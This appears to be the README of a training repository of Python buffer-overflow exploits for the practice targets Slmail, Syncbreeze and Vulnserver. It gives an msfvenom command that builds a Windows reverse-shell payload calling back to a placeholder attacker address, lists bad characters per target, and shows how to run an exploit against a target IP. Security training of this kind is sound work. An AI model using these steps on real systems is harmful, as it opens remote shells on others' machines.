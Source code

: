 # Buffer-Overflow exploits

A repository for HackerU's Buffer overflow exploits in Python :snake:

## Steps to run:

### 1. Generate a payload
Use msfvenom to generate your payload
```python
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=YOUR IP LPORT=YOUR PORT -f python -b "\x00"
```
Bad characters for:
* Slmail:
```python 
\x00\x0a\x0d
```

* Syncbreeze: 
```python 
\x00\x0a\x0d\x25\x26\x2b\x3d
```

* Vulnserver: 
```python 
\x00
```

Append the above payload to the exploit

### 2. Run
Ensure you have Python 2 or 3 installed. Provide the target IP address and port to the file and run:

```python
python slmail.py 172.45.12.37 110
```
